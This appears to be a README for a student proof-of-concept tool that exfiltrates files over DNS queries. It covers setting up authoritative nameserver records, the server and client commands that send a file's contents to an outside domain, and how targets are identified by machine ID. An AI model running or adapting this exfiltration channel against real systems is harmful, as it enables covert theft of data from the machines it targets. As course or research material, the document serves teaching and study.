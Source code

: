 # DNS Data Exfiltration

## Setting Up DNS Records

In order for DNS exfiltration to work, we need to set up our own DNS server that is the authoritative nameserver for some domain.

1. Create an A record pointing to the IP address of the DNS server to exfiltrate data to.
1. Create an NS record pointing to the previously created A record.

   This NS record will be used as the domain for all of our DNS queries.

## Running the DNS Exfiltration Server

DNS requests that reach the DNS exfiltration server are parsed according to the specified format.
Multiple DNS requests are processed and the data inside the files being exfiltrated are reconstructed and written to disk with their original file paths in `./exfiltrated-data/<machine ID>/<file path>`.
This preserves the structure of the files when exfiltrating directories of files.

Example of running the DNS exfiltration server:
```sh
make compile
sudo ./dns-exfiltration-server -n cs5231.ianyong.com
```

Note that root privileges are required to bind to port 53 as it is as well-known port for DNS.
Once the server has binded to the port, it will drop its privileges to that of the calling user.

In addition, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must also be passed in as a command line argument.
This is necessary for the server to know which parts of the DNS request name correspond to the data being exfiltrated.

## Running the DNS Exfiltration Client

The client takes in a file path, reads the file, and breaks its content up into chunks to exfiltrate over DNS.

Example of running the DNS exfiltration client:
```sh
make compile
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt
```

Similar to the DNS exfiltration server, the domain that the name server is listening on (`cs5231.ianyong.com` in the example above) must be passed in as a command line argument.
The client also takes in the path of the file to be exfiltrated.

Optionally, the delay in milliseconds between DNS requests can be specified via the `-d` argument:
```sh
./dns-exfiltration-client -n cs5231.ianyong.com -f exfiltrate-this.txt -d 500
```

The above example adds a 500ms delay between the sending of each DNS request.

## Design Decisions

### Identifying Targets

Targets cannot be identified via the IP address seen by the server.
This is because our DNS server will not be the local DNS server that the target talk to.
As such, regardless of the DNS query type (iterative or recursive), our DNS server never talks directly to the target.

In addition, some local DNS servers have a range of IP addresses which they use to communicate to other DNS servers.
Given the connectionless nature of UDP (the transport protocol used by DNS), every DNS request that we receive from the same target can come from different IP addresses.

In order to be able to handle simultaneous traffic from multiple hosts, as well as to uniquely identify targets which we exfiltrate data from, we make use of the machine ID of the target machine.
The machine ID is a unique string that is set during installation of the operating system.
We make use of the [machineid](https://github.com/denisbrodbeck/machineid) library to retrieve the machine ID from the target.

## Limitations

### DNS Caching

The DNS responses sent by the server have a Time-To-Live (TTL) of 300 seconds.
This is because setting it any lower might result in some DNS resolvers to ignore its value.
As a result, trying to exfiltrate the same file will not work until some time has passed (likely 5 minutes if the TTL is respected, possibly longer).
This is not a big issue as long as the exfiltration does not fail halfway through as we are unlikely to need to exfiltrate a recently exfiltrated file.

## Possible Improvements

### Sending Concurrent DNS Requests

Currently, the client will wait for a response from the server before sending the next DNS request.
Exfiltration of data can be sped up if we were to allow for concurrent DNS requests to be sent even though their respective responses have yet to be received.
However, this would necessitate the implementation of a protocol to handle out-of-order packet delivery, which would complicate this proof-of-concept.
